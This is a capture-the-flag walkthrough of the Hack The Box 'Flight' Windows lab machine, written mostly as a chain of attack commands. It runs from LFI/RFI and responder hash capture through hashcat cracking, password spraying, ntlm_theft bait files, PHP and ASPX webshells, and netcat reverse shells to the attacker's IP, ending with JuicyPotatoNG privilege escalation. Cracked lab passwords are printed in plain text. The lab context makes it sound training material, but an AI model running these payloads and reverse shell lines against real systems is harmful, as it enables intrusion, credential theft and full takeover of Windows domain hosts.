# [Flight](https://app.hackthebox.com/machines/flight)


```bash
nmap -p- --min-rate 10000 10.10.11.187 -Pn
```




After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,135,139,445,593,636,3269,5985 10.10.11.187
```




Let's access web application (port 80).


I add this ip address into '/etc/hosts' file as `flight.htb`

Let's do subdomain enumeration.

```bash
wfuzz -u http://10.10.11.187 -H "Host: FUZZ.flight.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 7069
```




I add `school.flight.htb` into '/etc/hosts' file also.





From `view` parameter looks tricky that I can inject LFI or RFI injections.

Let's start via LFI vulnerability, as because it is Windows machine, we need to read Windows sensitive files .

```bash
C:\windows\system32\drivers\etc\hosts
```




I just changed the view of slash characters (frontslash instead of backslash).



Hola, it worked.


Now, I will try to do RFI means I have a file on my http server.






One thing comes to my mind, if HTTP URI works without any problem, SMB URI should work also.


I will use SMB due to catching NTLM hash of user which runs web server.

1.For this, I need to turn `responder` .
```bash
responder -I tun0
```



2.Second, I need to add SMB URI into RFI injection part.
```bash
?view=//10.10.16.6/share/poc.txt
```




Yess, I got hash of `svc_apache` user, let's crack this hash via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```




I found password of this user.

svc_apache: S@Ss!K@*t13


Let's enumerate SMB share via this credentials by using `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' --shares
```




I login into SMB Share called '**Users**' by using `smbclient` tool.

```bash
smbclient //flight.htb/users -U flight.htb\\svc_apache
```




I cannot find anything from here, now I want to get all Domain Users, for this I will use `lookupsid.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb
```




I get all usernames from here (SIDTypeUser) and writes into file called `users`.




Now, I will do `Password Spray` attack means, I will try one password for all users which specifid in `users` file.

```bash
crackmapexec smb 10.10.11.187 -u users -p 'S@Ss!K@*t13' --continue-on-success
```




Hola, `S.Moon` use the same password maybe forgot to change default password of Domain.

S.Moon : S@Ss!K@*t13


Let's enumerate SMB shares via this credentials by using `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.187 -u S.Moon -p 'S@Ss!K@*t13' --shares
```




This user have `Write` permission into share called `Shared`, it means that we can do `SMB Relay` attack by putting malicious files into this specific SMB Share.

1.First, we need to download this [script](https://github.com/Greenwolf/ntlm_theft) and run as below.

```bash
python ntlm_theft.py -g all -s 10.10.16.6 -f dr4ks
```




2.Turn on your `responder`.
```bash
responder -I tun0
```



3.Let's login into this SMB Share '**Shared**' via `smbclient` tool.
```bash
smbclient //flight.htb/users -U flight.htb\\S.Moon
```

Then put **all files** into here
```bash
prompt false
mput *
```




Let's crack this hash via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```




That's credentials of `C.Bum` user.

C.Bum : Tikkycoll_431012284


Again, let's enumerate SMB Shares via this credentials by using `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.187 -u C.Bum -p 'Tikkycoll_431012284' --shares
```




This user has SMB access into `Web` share.

Let's put some file into here and find where we can browse this file port (80) via `smbclient` tool.

```bash
smbclient //flight.htb/Web -U flight.htb\\C.Bum
```




Now, I can browse this file.




Let's put `nc.exe` and `dr4ks.php` webshell into here to get reverse shell.





Now I can browse webshell to add my reverse shell code as below via `curl` command.

```bash
curl -G school.flight.htb/styles/dr4ks.php --data-urlencode 'cmd=nc.exe -e cmd.exe 10.10.16.6 1337'
```




Hola, I got reverse shell from port (1337).




I need to go into `C.Bum` user , I enumerate this user via `net user C.Bum` command and see that this user doesn't belong to **'Remote Users**' group


It means that I can’t use WinRM to execute commands as C.Bum in PowerShell.


I need to add this user into `Remote Users` group, but I cannot use legitimate `runas.exe` , that's why I need to use [RunasCs](https://github.com/antonioCoco/RunasCs)

1.First, let's download this tool and open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```



2.Then, we need to get this file from our http server.
```bash
powershell -c wget http://10.10.16.6:8080/RunasCs.exe -outfile r.exe
```




Now, execute this `binary` as below.
```bash
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.16.6:1338 cmd
```




Boom, I got reverse shell from port (1338).




user.txt




I just make enumeration via `netstat -a` command and find port `8000` which is not accessible from my network.




To be accessible, I need to upload `chisel` into machine then make `Port Forwarding`.

1.First, I need to create `chisel` server on attacker's machine.
```bash
chisel server -p 8000 --reverse
```



2.Then, I need to connect my `chisel` server via `chisel` client.
```bash
.\c.exe client 10.10.16.6:8000 R:8001:127.0.0.1:8000
```




Now, let's browse `localhost:8001` to see actual website.




All related data for this website is located on **'C:\inetpub\development'** folder on target machine.

Now, I just check that if I write a note.txt file, I can see this from web application.




Hola, I can see this.




Now, I will use `.aspx` webshell which I already upload this into target machine's location which I used before for note file.




Now, It's time to do reverse shell into command section.

```bash
C:\ProgramData\nc.exe -e cmd 10.10.16.6 3169
```




I got reverse shell from port (3169).




I enumerate privileges of this user via `whoami /priv` command and see that `SeImpersonatePrivilege` is enabled.




I will use this [JuicyPotato-NG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)


Let's upload this malicious executable into machine and run like below.

```bash
.\potato.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\ProgramData\nc.exe 10.10.16.6 2024 -e cmd.exe"
```



I got reverse shell from port (2024).




root.txt

